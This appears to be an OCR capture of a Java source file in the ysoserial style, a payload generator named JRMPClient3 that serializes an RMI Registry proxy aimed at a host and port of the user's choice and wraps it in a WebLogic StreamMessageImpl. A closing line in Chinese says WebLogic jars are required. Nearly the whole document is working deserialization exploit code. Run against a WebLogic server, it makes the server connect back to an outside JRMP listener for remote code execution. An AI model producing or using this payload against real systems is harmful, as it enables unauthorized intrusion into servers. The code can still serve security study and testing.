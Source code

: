```java
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;


@SuppressWarnings ( {
    "restriction"
} )
@PayloadTest( harness="ysoserial.test.payloads.JRMPReverseConnectSMTest")
@Authors({ Authors.MBECHLER })
public class JRMPClient3 extends PayloadRunner implements ObjectPayload<Object> {

    public Object streamMessageImpl(byte[] object) {
        StreamMessageImpl streamMessage = new StreamMessageImpl();
        streamMessage.setDataBuffer(object, object.length);
        return streamMessage;
    }

    public Object getObject (final String command ) throws Exception {
        String host;
        int port;
        int sep = command.indexOf(':');
        if (sep < 0) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID objID = new ObjID(new Random().nextInt());
        TCPEndpoint tcpEndpoint = new TCPEndpoint(host, port);
        UnicastRef unicastRef = new UnicastRef(new LiveRef(objID, tcpEndpoint, false));
        RemoteObjectInvocationHandler remoteObjectInvocationHandler = new RemoteObjectInvocationHandler(unicastRef);
        Object object = Proxy.newProxyInstance(JRMPClient3.class.getClassLoader(), new Class[] { Registry.class }, remoteObjectInvocationHandler);
        return streamMessageImpl(Serializer.serialize(object));
    }


    public static void main ( final String[] args ) throws Exception {
        Thread.currentThread().setContextClassLoader(JRMPClient3.class.getClassLoader());
        PayloadRunner.run(JRMPClient3.class, args);
    }
}
```

需要weblogic 部分jar的依赖

